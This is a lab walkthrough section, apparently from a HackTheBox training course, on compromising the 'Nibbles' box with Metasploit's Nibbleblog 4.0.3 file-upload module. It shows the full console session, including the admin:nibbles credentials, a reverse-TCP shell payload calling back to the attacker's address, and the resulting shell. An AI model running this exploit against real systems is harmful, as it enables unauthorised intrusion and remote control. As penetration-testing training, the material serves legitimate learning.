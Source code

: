 
Nibbles - Alternate User Method - Metasploit

As discussed earlier, there is also a Metasploit module that works for this box. It is considerably more straightforward, but it is worth practicing both methods to become familiar with as many tools and techniques as possible. Start Metsaploit from your attack box by typing msfconsole. Once loaded, we can search for the exploit.
Nibbles - Alternate User Method - Metasploit

msf6 > search nibbleblog

Matching Modules
================

   #  Name                                       Disclosure Date  Rank       Check  Description

-  ----                                       ---------------  ----       -----  -----------

   0  exploit/multi/http/nibbleblog_file_upload  2015-09-01       excellent  Yes    Nibbleblog File Upload Vulnerability


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/nibbleblog_file_upload

We can then type use 0 to load the selected exploit. Set the rhosts option as the target IP address and lhosts as the IP address of your tun0 adapter (the one that comes with the VPN connection to HackTheBox).
Nibbles - Alternate User Method - Metasploit

msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(multi/http/nibbleblog_file_upload) > set rhosts 10.129.42.190
rhosts => 10.129.42.190
msf6 exploit(multi/http/nibbleblog_file_upload) > set lhost 10.10.14.2 
lhost => 10.10.14.2

Type show options to see what other options need to be set.
Nibbles - Alternate User Method - Metasploit

msf6 exploit(multi/http/nibbleblog_file_upload) > show options 

Module options (exploit/multi/http/nibbleblog_file_upload):

  Name       Current Setting  Required  Description
----       ---------------  --------  -----------
  PASSWORD                    yes       The password to authenticate with
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS     10.129.42.190    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
  RPORT      80               yes       The target port (TCP)
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  TARGETURI  /                yes       The base path to the web application
  USERNAME                    yes       The username to authenticate with
  VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

  Name   Current Setting  Required  Description
----   ---------------  --------  -----------
  LHOST  10.10.14.2       yes       The listen address (an interface may be specified)
  LPORT  4444             yes       The listen port


Exploit target:

  Id  Name
--  ----
  0   Nibbleblog 4.0.3

We need to set the admin username and password admin:nibbles and the TARGETURI to nibbleblog.
Nibbles - Alternate User Method - Metasploit

msf6 exploit(multi/http/nibbleblog_file_upload) > set username admin
username => admin
msf6 exploit(multi/http/nibbleblog_file_upload) > set password nibbles
password => nibbles
msf6 exploit(multi/http/nibbleblog_file_upload) > set targeturi nibbleblog
targeturi => nibbleblog

We also need to change the payload type. For our purposes let's go with generic/shell_reverse_tcp. We put these options and then type exploit and receive a reverse shell.
Nibbles - Alternate User Method - Metasploit

msf6 exploit(multi/http/nibbleblog_file_upload) > set payload generic/shell_reverse_tcp
payload => generic/shell_reverse_tcp
msf6 exploit(multi/http/nibbleblog_file_upload) > show options 

Module options (exploit/multi/http/nibbleblog_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   nibbles          yes       The password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.129.42.190  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  nibbleblog       yes       The base path to the web application
   USERNAME   admin            yes       The username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.2      yes       The listen address (an interface may be specified)
   LPORT  4444            yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Nibbleblog 4.0.3


msf6 exploit(multi/http/nibbleblog_file_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] Command shell session 4 opened (10.10.14.2:4444 -> 10.129.42.190:53642) at 2021-04-21 16:32:37 +0000
[+] Deleted image.php

id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)

From here, we can follow the same privilege escalation path.
Next Steps

Make sure to follow along and try out all steps for yourself. Try other tools and methods to achieve the same result. Take detailed notes on your own exploitation path, or even if you follow the same steps laid out in this section. It is good practice and muscle memory that will significantly benefit you throughout your career. If you have a blog, do a walkthrough on this box and submit it to the platform. If you don't have one, start one. Just don't use Nibbleblog version 4.0.3.

There are often many ways to achieve the same task. Since this is an older box, other privilege escalation methods such as an outdated kernel or some service exploit are likely. Challenge yourself to enumerate the box and look for other flaws. Is there any other way that the Nibbleblog web application can be abused to obtain a reverse shell? Study this walkthrough carefully and make sure you understand every step before moving on.


